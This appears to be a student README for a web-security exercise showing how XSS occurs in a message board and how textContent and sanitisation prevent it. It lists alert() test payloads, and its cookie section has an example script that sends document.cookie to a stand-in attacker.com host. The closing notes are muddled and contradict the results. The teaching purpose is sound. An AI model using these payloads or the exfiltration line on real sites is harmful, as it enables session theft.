



What is XSS (Cross-Site Scripting)?
◆ Simple meaning

XSS is when a user enters malicious code (usually JavaScript) into your app, and your app runs it as real code instead of showing it as text.

# Exercise 12: XSS Prevention Practice

## ◆ Problem

Build a message board and demonstrate how XSS (Cross-Site Scripting) attacks occur and how to prevent them.

---

## ◆ What is XSS?

XSS is a vulnerability where user input is executed as JavaScript instead of being displayed as text.

Example:

<script>alert("XSS")</script>

---

## ◆ Vulnerable Approach

```js
function renderMessageUnsafe(text) {
  const li = document.createElement("li");
  li.innerHTML = text; // ❌ XSS vulnerability
  messageList.appendChild(li);
}
```

Using `innerHTML` allows injected scripts to run.

---

## ◆ Safe Approach

```js
function renderMessageSafe(text) {
  const li = document.createElement("li");
  li.textContent = text; // ✔ safe
  messageList.appendChild(li);
}
```

Using `textContent` ensures input is treated as plain text.

---

## ◆ Sanitisation Function

```js
function sanitise(input) {
  const div = document.createElement("div");
  div.appendChild(document.createTextNode(input));
  return div.innerHTML;
}
```

This converts unsafe characters:

* `<` → `&lt;`
* `>` → `&gt;`

---

## ◆ XSS Test Payloads

1. `<script>alert("XSS1")</script>`
2. ``
3. `<svg onload=alert("XSS3")>`
4. `<a href="javascript:alert('XSS4')">Click</a>`
5. `<b onmouseover=alert("XSS5")>Hover</b>`

---

## ◆ Results

### Vulnerable Mode (`innerHTML`)

* Scripts execute
* Alerts triggered

### Safe Mode (`textContent`)

* All inputs shown as text
* No code execution

---

## ◆ Why this matters (Cookies)

Attackers can use XSS to access:

```js
document.cookie
```

This can expose:

* Login sessions
* User identity

Example attack:

```html
<script>
fetch("https://attacker.com?data=" + document.cookie)
</script>
```

---

## ◆ Key Learning

* Never trust user input
* Avoid `innerHTML` for user data
* Use `textContent` or sanitisation
* XSS can lead to serious security issues

---

## ◆ How to Run

1. Open `index.html` in browser
2. Enter XSS payloads
3. Toggle SAFE_MODE in `script.js`

---

## ◆ Output Example

Unsafe Mode:

* Alert popup appears

Safe Mode:

* Input displayed as text

---

## ◆ Notes

* Demonstrates real-world web security issue
* Shows difference between rendering vs execution
* Important for secure frontend development

---
old image:
 ->when safe is off it won't even execute the text if its bad or malicious and if its on it will treat as normal etxt

 

 New image - Upgraded
 -?visible but cannot act or add.